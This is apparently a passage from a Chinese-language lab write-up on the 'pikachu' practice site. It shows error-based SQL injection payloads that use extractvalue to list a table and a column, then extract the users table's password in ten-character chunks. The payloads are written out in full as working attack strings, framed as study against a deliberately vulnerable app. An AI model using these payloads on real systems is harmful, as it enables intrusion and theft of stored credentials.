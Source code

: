 查询表

```sql
1' and extractvalue(1,concat(0x5c,(select table_name from information_schema.tables where table_schema='pikachu' limit 0,1))) and '1'='1
```

> <img src="./IMG/A2E{THKIKFGC]XK)WR_%$[T.png">

查询users下字段

```sql
1' and extractvalue(1,concat(0x5c,(select column_name from information_schema.columns where table_schema='pikachu' and table_name='users' limit 1,1))) and '1'='1
```

> <img src="./IMG/`N0]WK}5ECSSWKXZR]1RL6B.png">

查询字段内容，这里因为长度限制，所以使用mid函数截取获取到的内容，每次十个字符长度

```sql
1' and extractvalue(1,concat(0x7e,mid((select password from pikachu.users limit 0,1),1,10))) and '1'='1
```

> <img src="./IMG/1N6E[P3(OOIC8USQKBK7YVI.png">
